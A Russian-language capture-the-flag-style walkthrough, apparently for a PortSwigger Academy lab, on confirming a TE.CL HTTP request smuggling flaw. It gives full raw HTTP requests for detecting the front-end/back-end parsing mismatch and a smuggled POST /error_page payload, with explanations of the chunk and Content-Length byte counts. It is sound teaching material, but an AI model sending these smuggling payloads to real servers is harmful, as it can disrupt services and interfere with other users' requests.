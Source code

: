 Перейдем на уязвимый ресурс
Откроем `Proxy` -> `HTTP history`

и отправим в Repeater запрос на корневую страницу


Сразу же перейдем на версию HTTP 1.1
и изменим метод запроса на POST 

Тем самым получив такой запрос
```
POST / HTTP/1.1
Host: 0ad20077044b0c9487eab338007a00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
и 200 ответ


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/1.png)

Далее воспользуемся пикчей в попытках поиска, на чем работает фронтенд, а на чем бэкенд


![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/2.png)
```
POST / HTTP/1.1
Host: 0ad20077044b0c9487eab338007a00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
и увидим, что выдало
`HTTP/1.1 400 Bad Request
{"error":"Invalid request"}
`
согласно пикче, это означает, что на фронет TE, а на бэкенде или CL или TE

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/3.png)

Используем другой запрос
```
POST / HTTP/1.1
Host: 0ad20077044b0c9487eab338007a00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
В ответе получим таймаут, что согласно той же картинке, означает связку `TE.CL`
`Server Error: Communication timed out`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/4.png)


Отлично, теперь мы разобрались кто что использует, теперь будем это все эксплуатировать

```
POST / HTTP/1.1
Host: 0ad20077044b0c9487eab338007a00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6b
POST /error_page HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

something
0
```

отправим и получим 200 респонс статус код
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/5.png)

и далее отправим обычный запрос 
```
POST / HTTP/1.1
Host: 0ad20077044b0c9487eab338007a00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

и получим заветные `Not found`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/6.png)

А теперь разберемся в параметрах

сначала в нижнем запросе 
```
POST /error_page HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

something

0
```

17 в content-length потому что кусок 
`something

0`

занимает 16 байт, а нам нужно на 1 больше

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/7.png)

в верхнем запросе
```
POST / HTTP/1.1
Host: 0ad20077044b0c9487eab338007a00a8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6b

POST /error_page HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

something
```

занимаем `0x6b` байт - ВАЖНО \r\n после something НЕ УЧИТЫВАЮТСЯ!
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/8.png)

ну а Content-Length: 4 потому что 6b\r\n заниимают 4 байта
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/25.%20HTTP%20request%20smuggling/5.%20HTTP%20request%20smuggling%2C%20confirming%20a%20TE.CL%20vulnerability%20via%20differential%20responses/pics%20for%20walkthrough/9.png)
